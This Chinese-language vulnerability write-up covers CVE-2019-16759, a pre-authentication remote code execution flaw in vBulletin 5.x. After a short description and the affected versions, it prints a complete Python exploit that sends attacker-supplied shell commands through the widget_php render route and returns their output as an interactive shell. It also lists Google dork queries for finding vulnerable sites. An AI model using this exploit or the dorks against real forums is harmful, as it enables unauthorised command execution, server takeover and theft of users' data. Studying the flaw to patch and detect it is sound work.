 ## 前言  

vBulletin 是一个商用的论坛程序，在全球拥有数万用户且增长速度很快。该论坛采用PHP Web语言及MySQL数据库的方式进行架构。《财富》 500强和Alexa排名前100万的公司网站大部分都在使用的一款互联网论坛程序。

## 漏洞简介  

CVE-2019-16759 vBulletin 5.x 0day pre-auth RCE exploit ，无需预认证即可执行远程代码执行漏洞 

## 漏洞危害  

不需要在目标论坛上注册帐户,即可在运行vBulletin安装的服务器上执行shell命令 

## 影响范围  

### 产品  

> vBulletin 5.x 

### 版本  

> vBulletin v5（5.0.0到5.5.4）版本  

### 组件  

> vBulletin  

## 漏洞复现  

## POC

```python
#!/usr/bin/python
#
# vBulletin 5.x 0day pre-auth RCE exploit
# 
# This should work on all versions from 5.0.0 till 5.5.4
#
# Google Dorks:
# - site:*.vbulletin.net
# - "Powered by vBulletin Version 5.5.4"

import requests
import sys

if len(sys.argv) != 2:
    sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

params = {"routestring":"ajax/render/widget_php"}

while True:
     try:
          cmd = raw_input("vBulletin$ ")
          params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"'); exit;"
          r = requests.post(url = sys.argv[1], data = params)
          if r.status_code == 200:
               print r.text
          else:
               sys.exit("Exploit failed! :(")
     except KeyboardInterrupt:
          sys.exit("\nClosing shell...")
     except Exception, e:
          sys.exit(str(e))
```
### 复现截图  

![vBulletin](img/41.png)